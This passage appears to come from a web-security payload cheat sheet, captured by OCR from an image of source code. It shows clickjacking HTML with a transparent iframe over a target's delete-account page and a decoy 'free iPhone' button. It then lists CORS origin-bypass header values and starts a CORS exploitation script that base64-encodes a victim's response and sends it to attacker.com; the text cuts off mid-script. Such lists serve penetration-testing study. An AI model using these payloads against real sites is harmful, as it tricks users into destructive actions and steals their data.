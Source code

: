 ### Clickjacking

```html
<!-- Basic clickjacking -->
<iframe src="https://target.com/delete-account"></iframe>

<!-- Invisible iframe -->
<style>
iframe {
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
    opacity: 0.0001;
    z-index: 1000;
}
button {
    position: absolute;
    top: 200px;
    left: 200px;
    z-index: 1;
}
</style>
<iframe src="https://target.com/delete-account"></iframe>
<button>Click for free iPhone!</button>

<!-- Drag and drop clickjacking -->
<iframe src="https://target.com/settings"></iframe>
<div draggable="true">Drag this file</div>

<!-- Test defenses -->
# Check for X-Frame-Options header
# Check for CSP frame-ancestors directive
```

### CORS Misconfiguration

```bash
# Null origin
Origin: null

# Arbitrary origin reflection
Origin: https://attacker.com
# If Access-Control-Allow-Origin: https://attacker.com (reflected)

# Subdomain exploitation
Origin: https://sub.target.com
# If regex is weak: .*target.com

# Pre-domain/post-domain
Origin: https://target.com.attacker.com
Origin: https://attacker.target.com

# Underscore bypass
Origin: https://target_com.attacker.com

# Exploitation script
<html>
<body>
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() {
    fetch('https://attacker.com/log?data=' + btoa(this.responseText));
```